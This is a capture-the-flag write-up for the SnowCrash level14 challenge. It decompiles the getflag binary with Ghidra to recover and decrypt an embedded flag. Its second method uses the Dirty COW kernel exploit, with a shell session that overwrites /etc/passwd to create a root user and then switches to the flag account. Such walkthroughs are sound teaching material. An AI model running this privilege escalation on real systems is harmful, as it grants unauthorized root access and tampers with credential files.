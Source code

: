 # PWN

level14 drops us in a fully empty profile, nothing in the user home, and running the `find` command to get anything owned by the user / the users group yields nothing

without anything to use given to us by the subject, we turn to `getflag` to find our flag in there
exporting our file to the host machine, we used ghidra to decompile the executable

from there, we look at the main function (here in `main.c`) and see between some security measures that to get a flag, the main function runs
```c
flagXX = (char *)ft_des(encrypted_flagXX);
fputs(flag ,stdout);
```

for each flag, checking the UID of the user running it (the flagXX profiles are in the format 30XX)

here is the code for the flag14
```c
else {
    if (_Var6 != 0xbc6) goto LAB_08048e06;
    pcVar4 = (char *)ft_des("g <t61:|4_|!@IF.-62FH&G~DCK/Ekrvvdwz?v|");
    fputs(pcVar4,__stream);
}
```

so the encrypted flag for level 14 is `g <t61:|4_|!@IF.-62FH&G~DCK/Ekrvvdwz?v|` (note: this flag is longer than all previous flags)

we then get ft_des from the decompiled binary and add a main function to run it on its own
we pass our encrypted flag and tada! our flag appears

To make sure we did in fact have the right flag, we used a second method to get said flag

looking at the iso, we can notice that it is vulnerable to the `Dirty COW` exploit, that lets a user escalate privilege to root ([wikipedia page of the exploit](https://en.wikipedia.org/wiki/Dirty_COW))
looking it up we find [a Github page]((https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)) listing some ready made code to run to use the exploit.

from there we can get root privilege, log in to flag14, and get the flag:

```
level14@SnowCrash:~$ cd /tmp/
level14@SnowCrash:/tmp$ vim pwn.c
level14@SnowCrash:/tmp$ gcc -pthread pwn.c -o pwn -lcrypt
level14@SnowCrash:/tmp$ ./pwn
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd

level14@SnowCrash:/tmp$ su firefart
Password:
firefart@SnowCrash:/tmp# cd
firefart@SnowCrash:# su flag14
Congratulation. Type getflag to get the key and send it to me the owner of this livecd :)
flag14@SnowCrash:~$ getflag
```
and we've confirmed we've got the correct flag !